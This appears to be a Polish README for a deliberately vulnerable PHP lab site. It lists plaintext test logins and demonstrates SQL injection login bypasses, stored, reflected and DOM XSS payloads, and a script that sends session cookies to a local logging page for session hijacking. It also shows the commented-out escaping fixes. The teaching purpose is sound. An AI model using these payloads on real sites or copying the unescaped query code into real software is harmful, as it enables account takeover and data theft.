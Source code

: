 Potrzebne loginy  (poza tym dołączam zrzut bazy danych z potrzebnymi tabelami do logowania i składania zamówień. Hasła userów w czystej formie, niezahashowane. Nazwa bazy danych ustawiona na s130719 w pliku connect.php w zmiennej $dbName. W razie potrzeby zmienić)
admin:12345
klient:12345

___
SQL Injection
___
Przy niezabezpieczonej stronie można w formularzu logowania przekazać swoje zapytanie SQL. Znając username da się zalogować bez hasła. Np dla username "admin", może wyglądać to tak- admin ' -- (admin, spacja, apostrof, spacja, 2 myślniki, spacja)
Nie znając username można metodą prób i błędów próbować odgadnąć nazwy kolumn w tabeli i próbować zalogować np. poprzez id (może równie dobrze być mail jeśli jest znany atakującemu)
' OR id=1 -- 

Zabezpieczenie- w pliku login.php jest fragment gdzie zakomentowane są zabezpieczenia

        $login = $_POST['login'];
        $password = $_POST['password'];

    //    $login = htmlentities($login, ENT_QUOTES, "UTF-8");
    //    $password = htmlentities($password, ENT_QUOTES, "UTF-8");



        $sql = "SELECT * FROM users WHERE user='$login' AND pass='$password'";

        if ($result = @$conn->query($sql))
      //      sprintf("SELECT * FROM users WHERE user='%s' AND pass='%s'",
      //      mysqli_real_escape_string($conn,$login),
      //      mysqli_real_escape_string($conn,$password))))

Odkomentować je (i przy ifie usunąć fragment "$sql))"  . Będzie wyglądać to tak jak niżej. Można równie dobrze zakomentować/usunąć linię ze zmienną $sql bo nie jest już używana. Zapytanie jest bezpośrednio w ifie ze zmiennymi przepuszczonymi dodakowo przez mysqli_real_escape_string())


        $login = $_POST['login'];
        $password = $_POST['password'];

        $login = htmlentities($login, ENT_QUOTES, "UTF-8");
        $password = htmlentities($password, ENT_QUOTES, "UTF-8");



        $sql = "SELECT * FROM users WHERE user='$login' AND pass='$password'";

        if ($result = @$conn->query(
            sprintf("SELECT * FROM users WHERE user='%s' AND pass='%s'",
            mysqli_real_escape_string($conn,$login),
            mysqli_real_escape_string($conn,$password))))


htmlentities()- zmienia potencjalnie niebezpieczne znaki na encje html (np < zostaje zmienione na &lt; . Przy wyświetlaniu, HTML pokaże też znak < ale nie zinterpretuje go jako otwieranie tagu przy próbie wpisania tagów html. <script> zostanie zmienione na &lt;script&gt;

mysqli_real_escape_string()   - dodaje \ przed potencjalnie niebezpiecznymi znakami. Np '  (zostaje zapisane jako \' dzięki czemu apostrof nie jest traktowany jako zakończenie stringa, tylko jako jego część)

____________________________________________________________

XSS-
Wykorzystuje brak lub luki w sanityzacji i walidacji inputu usera. W najprostszej postaci polega na wbiciu swojego kodu javascript w tagach <script> w miejscu gdzie mogą na niego wpaść potencjalne ofiary (tablice ogłoszeniowe, profile użytkownika i inne)


Stored XSS:
Na tej stronie przykładowo klient w formularzu zamówień po zalogowaniu może do szczegółów zamówienia wpisać swój skrypt przykładowo tutaj: <script>window.location.replace("http://localhost/test.php?cookie="+document.cookie);</script>
W takim wypadku w bazie danych zostaje zapisany ten skrypt, admin po wejściu na listę zamówień otrzymuje w tej liście z zaufanego serwera złośliwy kod który zostaje wykonany przez przeglądarkę. W tym wypadku zostaje przekierowany na podstronę test.php i do zmiennej cookie zapisane zostanie cookie obecnej sesji użytkownika. 
test.php który zapisuje cookie, ip, przeglądarkę i godzinę przechwycenia i zapisuje te dane w logi.txt
Widnieje wtedy tam przykładowo takie zapisane PHPSESSID "PHPSESSID=uftg02hvsde3vg1fj8qjvtglpe".
Atakujący mając id sesji ofiary może ustawić to id u siebie przykładowo poprzez wpisanie w konsoli przeglądarki: document.cookie = "PHPSESSID=uftg02hvsde3vg1fj8qjvtglpe"  i odświeżenie strony. O ile ofiara nie wylogowała swojego konta (wylogowując się, zamyka się najczęsćiej sesję usuwając zmienne sesyjne) to atakujący ma wtedy pełny dostęp do takiego konta.
PHPSESSID może być nazwane w inny sposób, nie zawsze jest na pierwszy rzut oka oczywiste która zmienna to phpsessid zapisane w cookie.
Poza tym drugą drogą przekazywania zmiennej sesyjnej może być document.location.href (link w przeglądarce).

Reflected XSS:
W tym wypadku złośliwy skrypt nie jest zapisany na serwerze na stałe, ale jest odsyłany przez serwer w odpowiedzi na zapytanie. W tym wypadku atak najczęściej polega na skłonieniu ofiary do kliknięcia w odpowiednio przygotowany link.
Tutaj dla przykładu strona 404.php (http://localhost/404.php) wyświetla informację o błędzie not found jednocześnie wyświetlając błędny odnośnik Not found: /404.php.
W takim wypadku można do takiej strony spróbować dodać swój skrypt przykładowo: http://localhost/404.php?<script>alert("test");</script>. Skrypt taki może być także napisany w taki sposób by przenosił na stronę która jak test.php przechwytuje dane ofiary po przeniesieniu.

DOM Based XSS:
w pliku form.php mamy prosty formularz z okienkiem wyboru. Okienko wyboru wstępnie wyświetla opcję domyślną zawartą w linku
http://localhost/form.php?default=French
Atakujący taką stronę może w linku zamieścić kod javascriptu. 
http://localhost/form.php?default=<script>alert(document.cookie)</script>
Niezabezpieczona strona, po wyświetleniu treści przez taki link wykona skrypt atakującego.

________________________



Dla przykładu zabezpieczenia user inputu w oknie zamówień- W pliku dborder.php jest fragment kodu z zakomentowanym przepuszczeniem zmiennej $opis przez htmlentities (wystarczy usunąć komentarz)

$opis = $_POST['desc'];
$idClient = $_SESSION['id'];
// $opis = htmlentities($opis, ENT_QUOTES, "UTF-8");

htmlentites będzie tutaj najprostszą (ale nie jedyną) metodą zabezpieczenia poprzez podmienienie określonych znaków na encje html.
Dodatkowo można zastosować escaping user input (wcześniej wspomniane przy mysqli_real_escape_string) przy wszelkich encjach HTML, URL czy javascriptu (jeśli nie chcemy pozwolić użytkownikom na używanie kodu na stronie)
Walidacja inputu usera- nie pozwalać na używanie określonych znaków w inpucie

Jeśli chcemy pozwolić użytkownikom na używanie pewnych tagów htmla (na przykład img żeby pozwolić im wstawiać obrazy) trzeba zwrócić uwagę na niektóre atrybuty i nie zezwalać na ich używanie. Przykładowo w tagu img można umieścić atrybut onerror="" który także może wywołać niebezpieczny kod javascriptu, więc samo zabronienie używania tagów <script> nie wystarczy.
